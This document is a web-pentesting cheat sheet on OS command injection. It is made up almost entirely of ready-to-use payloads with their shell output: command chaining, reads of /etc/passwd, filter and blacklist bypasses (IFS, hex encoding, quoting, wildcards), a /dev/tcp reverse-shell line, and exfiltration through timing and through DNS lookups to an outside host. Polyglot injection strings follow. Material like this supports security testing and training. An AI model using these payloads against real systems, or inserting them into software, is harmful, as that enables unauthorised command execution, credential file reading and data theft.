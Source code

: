 ```yaml
---
title: Command Injection
description: Pentesting-Web
---
```


> Command injection is a security vulnerability that allows an attacker to execute arbitrary commands inside a vulnerable application.

## Tools

* [commix - Automated All-in-One OS command injection and exploitation tool](https://github.com/commixproject/commix)

## Exploits

### Basic commands

Execute the command and voila :p

```powershell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

### Chaining commands

```powershell
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # Only if the first cmd fail
```

### Inside a command

```bash
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

## Filter Bypasses

### Bypass without space

Works on Linux only.

```powershell
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

Commands execution without spaces, $ or { } - Linux (Bash only)

```powershell
IFS=,;`cat<<<uname,-a`
```

Works on Windows only.

```powershell
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### Bypass with a line return

```powershell
something%0Acat%20/etc/passwd
```

### Bypass characters filter via hex encoding

Linux

```powershell
swissky@crashlab▸ ~ ▸ $ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab▸ ~ ▸ $ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab▸ ~ ▸ $ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab▸ ~ ▸ $ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```

### Bypass characters filter

Commands execution without backslash and slash - linux bash

```powershell
swissky@crashlab▸ ~ ▸ $ echo ${HOME:0:1}
/

swissky@crashlab▸ ~ ▸ $ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ echo . | tr '!-0' '"-1'
/

swissky@crashlab▸ ~ ▸ $ tr '!-0' '"-1' <<< .
/

swissky@crashlab▸ ~ ▸ $ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

### Bypass Blacklisted words

#### Bypass with single quote

```powershell
w'h'o'am'i
```

#### Bypass with double quote

```powershell
w"h"o"am"i
```

#### Bypass with backslash and slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

#### Bypass with $@

```powershell
who$@ami

echo $0
-> /usr/bin/zsh
echo whoami|$0
```

#### Bypass with variable expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### Bypass with wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## Challenge

Challenge based on the previous tricks, what does the following command do:

```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```

## Time based data exfiltration

Extracting data : char by char

```powershell
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

## DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```powershell
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```powershell
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:

- dnsbin.zhack.ca
- pingb.in

## Polyglot command injection

```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

e.g:
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```

```bash
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

e.g:
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```

## References

* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
* [#bash #obfuscation by string manipulation - Malwrologist, @DissectMalware](https://twitter.com/DissectMalware/status/1025604382644232192)
